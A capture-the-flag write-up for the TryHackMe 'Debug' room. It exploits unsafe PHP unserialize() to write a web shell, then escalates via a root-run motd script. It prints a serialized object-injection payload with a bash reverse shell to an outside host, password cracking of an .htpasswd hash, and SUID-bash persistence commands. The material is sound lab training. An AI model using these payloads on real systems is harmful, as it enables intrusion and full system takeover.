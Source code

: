 # Tryhackme.com Room : Debug

`https://tryhackme.com/room/debug`



## Instance

```
export IP='10.10.67.55'
```

## Nmap

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 44:ee:1e:ba:07:2a:54:69:ff:11:e3:49:d7:db:a9:01 (RSA)
|   256 8b:2a:8f:d8:40:95:33:d5:fa:7a:40:6a:7f:29:e4:03 (ECDSA)
|_  256 65:59:e4:40:2a:c2:d7:05:77:b3:af:60:da:cd:fc:67 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## Initial foothold

We land on an `apache2 default page` on port `80`.

We `gobuster` and find :

```
/index.php (Status: 200)
/index.html (Status: 200)
/javascript (Status: 301)
/message.txt (Status: 200)
/backup (Status: 301)
/grid (Status: 301)
```

On `index.php` everything is pretty much `lorem ipsum` but we have a form that says :

```
Form Submit (Your message will be saved on the server and will be reviewed later by our administrators)
```

Interesting.

Looking at `/message.txt` we see :

```
Message From :  || From Email :  || Comment : 
Message From :  || From Email :  || Comment : 
```

If we submit something in the form and refresh `/message.txt` we see :

```
Message From :  || From Email :  || Comment : 
Message From :  || From Email :  || Comment :
Message From : Pwn || From Email : Pwn@pwned.com || Comment : pwned
```

So we can write to `/message.txt` using this form.



Looking at `/backup` we see a firectory listing with a copy of all the files in the website.

The interesting files are `index.html.bak` and `index.php.bak`. This allows us to read the source code for the `php` file.

Here is the interesting parts of `index.php.bak` :

```php
<?php

class FormSubmit {
public $form_file = 'message.txt';
public $message = '';

	public function SaveMessage() {

	$NameArea = $_GET['name']; 
	$EmailArea = $_GET['email'];
	$TextArea = $_GET['comments'];

	        $this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";

	}

	public function __destruct() {

	file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
	echo 'Your submission has been successfully saved!';

	}

}

// Leaving this for now... only for debug purposes... do not touch!
$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application -> SaveMessage();

?>
```

The `unserialize` call is interesting. Since we have a class definition for `FormSubmit`, we can probably unserialize an object an write a php script to get a reverse shell. 

The defined method `_destruct()` make this preatty easy for us.

We just need  to create an object with the correct `$form_file` and `$message`.



We can get a proof of concept by creating a `php` file :

```php
class FormSubmit {
	public $form_file = 'pwned.php';
	public $message = '<?php phpinfo();?>';
}

$application = new FormSubmit;
echo serialize($application);
```

Execting it gives us :

```
O:10:"FormSubmit":2:{s:9:"form_file";s:9:"pwned.php";s:7:"message";s:18:"<?php phpinfo();?>";}
```

Then browsing `/index.php?debug=O:10:"FormSubmit":2:{s:9:"form_file";s:9:"pwned.php";s:7:"message";s:18:"<?php phpinfo();?>";}` unserialize the object.

We can then look at `/pwned.php` and we see a `phpinfo` output.

Success, now let's get a revshell.

Here is the php script to generate the payload. I added a `urlencode` to encode the payload.

```php
class FormSubmit {
	public $form_file = 'shell.php';
	public $message = '<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/10.6.32.20/7777 0>&1\'");';
}

$application = new FormSubmit;
echo urlencode(serialize($application));
```

And we can call it using :

```
curl http://10.10.67.55/index.php?debug=$(php serialize.php) && curl http://10.10.67.55/shell.php
```



And we got a shell as `www-data`

We find the file `/var/www/html/.htpasswd` which contains :

```
james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1
```

We send it to `john` and we find the password

```
james:jamaica
```

We can then `su james`

We find the first flag in `/home/james/user.txt` :

```
7e37c84a66cc40b1c6bf700d08d28c20
```

## Priv Esc

We find the file `/home/james/Note-To-James.txt` :

```
Dear James,

As you may already know, we are soon planning to submit this machine to THM's CyberSecurity Platform! Crazy... Isn't it?

But there's still one thing I'd like you to do, before the submission.

Could you please make our ssh welcome message a bit more pretty... you know... something beautiful :D

I gave you access to modify all these files :)

Oh and one last thing... You gotta hurry up! We don't have much time left until the submission!

Best Regards,

root
```



This is pretty straightforward. The motd is runned by root. 

We modify `/etc/update-motd.d/00-header` and add the lines :

```
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
```

We connect to the server via ssh :

```
sshpass -p jamaica ssh james@10.10.67.55
```

Then `/tmp/bash -p` and we are `root` !

Here is the root flag `/root/root.txt` :

```
3c8c3d0fe758c320d158e32f68fabf4b
```

## Wrap up

* This was a pretty easy one. The fact that we had access to the `php` source code made it pretty easy.

